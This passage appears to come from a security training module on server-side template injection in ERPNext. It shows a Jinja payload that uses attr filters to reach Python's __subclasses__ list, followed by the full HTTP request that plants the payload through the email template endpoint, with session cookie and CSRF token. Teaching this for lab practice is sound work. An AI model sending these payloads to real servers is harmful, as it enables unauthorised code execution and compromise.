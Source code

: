 To fix this issue, we can again transform the expression into a statement and save the output of the __subclasses__ method into a variable. The payload for this is shown in Listing 75.

{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r }}
Listing 75 - Accessing the __subclasses__ attribute and executing

Rendering the template executes the __subclasses__ method and returns a long list of classes that are available to us. We will need to carefully review this list to find classes that could result in code execution.

```
POST /api/method/frappe.email.doctype.email_template.email_template.get_email_template HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 40d982af267589a752055032bae9b3c93261930c6e99d04e4462a524
X-Frappe-CMD: 
X-Requested-With: XMLHttpRequest
Content-Length: 948
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/desk
Cookie: user_image=; system_user=yes; user_id=Administrator; full_name=Administrator; sid=63a960ebd19d5a6b6a5215c323fae00017887e50991a732fdbfcf809

template_name=Hacking+With+SSTI&doc=%7B%22modified_by%22%3A%22Administrator%22%2C%22owner%22%3A%22Administrator%22%2C%22name%22%3A%22Hacking+With+SSTI%22%2C%22modified%22%3A%222024-08-28+19%3A54%3A55.796500%22%2C%22response%22%3A%22%3Cdiv%3E%7B%25+set+string+%3D+%5C%22ssti%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+class+%3D+%5C%22__class__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+mro+%3D+%5C%22__mro__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+subclasses+%3D+%5C%22__subclasses__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%3Cbr%3E%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+mro_r+%3D+string%7Cattr(class)%7Cattr(mro)+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+subclasses_r+%3D+mro_r%5B1%5D%7Cattr(subclasses)()+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%7B+subclasses_r+%7D%7D%3C%2Fdiv%3E%22%2C%22idx%22%3A0%2C%22subject%22%3A%22Hacking+With+SSTI%22%2C%22doctype%22%3A%22Email+Template%22%2C%22docstatus%22%3A0%2C%22creation%22%3A%222024-08-28+16%3A42%3A59.129341%22%7D&_lang=
```

To simplify output review, let's clean up this list in Visual Studio Code. We'll copy all the classes, starting with "<class 'list'>" and ending with the last class object.

Next, we will replace all ",\ " strings (including the space character) with a new line character. To do this, let's open the "Find and Replace" dialog by pressing C+h. In the "Find" section we will enter ",\ " and in the "Replace" section we will press B+I to add a new line. Finally, we will select Replace All.
